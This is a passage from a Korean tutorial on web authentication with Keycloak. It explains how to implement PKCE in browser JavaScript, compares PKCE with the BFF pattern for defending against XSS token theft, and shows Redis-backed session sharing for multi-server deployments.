- **웹 애플리케이션에서도 사용 가능** (JavaScript로 구현)

**❌ Standard (사용 금지)**

- 실제 서비스에는 절대 사용 금지
- 학습 목적으로만 사용

> 💡 **최선의 선택**: 가능하면 **BFF 패턴**을 사용하세요. 불가피하게 클라이언트만 있다면 **PKCE**를 반드시 적용하세요!

### 웹 애플리케이션에서 PKCE 사용하기

**PKCE는 모바일 앱 전용이 아닙니다!** 웹 브라우저의 JavaScript에서도 구현 가능합니다.

**웹에서 PKCE 구현 예시:**

```javascript
// 브라우저에서 실행되는 JavaScript

// 1. code_verifier 생성 (랜덤 문자열)
function generateCodeVerifier() {
  const array = new Uint8Array(32);
  crypto.getRandomValues(array);
  return base64UrlEncode(array);
}

// 2. code_challenge 생성 (SHA256 해시)
async function generateCodeChallenge(verifier) {
  const encoder = new TextEncoder();
  const data = encoder.encode(verifier);
  const hash = await crypto.subtle.digest("SHA-256", data);
  return base64UrlEncode(new Uint8Array(hash));
}

// 3. 로그인 시작
const verifier = generateCodeVerifier();
const challenge = await generateCodeChallenge(verifier);

// verifier를 브라우저 메모리에 임시 저장 (sessionStorage)
sessionStorage.setItem("pkce_verifier", verifier);

// Keycloak으로 리다이렉트
window.location.href = `https://keycloak/auth?
    client_id=myapp
    &response_type=code
    &redirect_uri=http://localhost:8888/callback
    &code_challenge=${challenge}
    &code_challenge_method=S256`;
```

**웹에서 PKCE vs BFF 선택 기준:**

| 상황                                  | 권장 방식 | 이유                               |
| :------------------------------------ | :-------- | :--------------------------------- |
| **백엔드 서버 있음**                  | BFF       | 토큰을 서버에 보관 → XSS 방어 최강 |
| **SPA 단독 배포** (백엔드 없음)       | PKCE      | Code 탈취 방어 가능                |
| **정적 호스팅** (GitHub Pages, S3 등) | PKCE      | 서버 없이 클라이언트만 있는 환경   |

**핵심 차이:**

- **BFF**: 토큰을 서버에 저장 → XSS 공격에도 안전 🥇
- **PKCE**: 토큰을 브라우저에 저장 → XSS 공격 시 탈취 가능 (하지만 Code 탈취는 방어) 🥈

> ⚠️ **중요**: 웹에서 PKCE를 사용해도 토큰은 여전히 브라우저에 노출됩니다. BFF처럼 XSS를 완벽히 방어하지는 못합니다. 하지만 **백엔드가 없는 상황**이라면 PKCE가 최선의 선택입니다!

---

## 9. 🏗️ 실전 팁: HA 환경에서 세션 관리

여러 서버를 띄우는 이중화(HA) 환경에서는 In-Memory 세션이 문제가 됩니다.

**문제 상황:**

```
사용자 → 서버A에서 로그인 → 세션 저장
사용자 → 다음 요청이 서버B로 감 → 서버B는 세션 모름 → 로그인 풀림!
```

**해결책: Redis 사용**

```python
import redis
import json

# Redis 연결
redis_client = redis.Redis(host='redis-server', port=6379)

# 세션 저장 (1시간 TTL)
redis_client.setex(
    f"session:{session_id}",
    3600,  # 1시간
    json.dumps({"access_token": token, "user_info": user_info})
)

# 세션 조회
data = redis_client.get(f"session:{session_id}")
if data:
    session_data = json.loads(data)
```

## 모든 서버가 같은 Redis를 바라보므로 세션 공유 문제 해결!
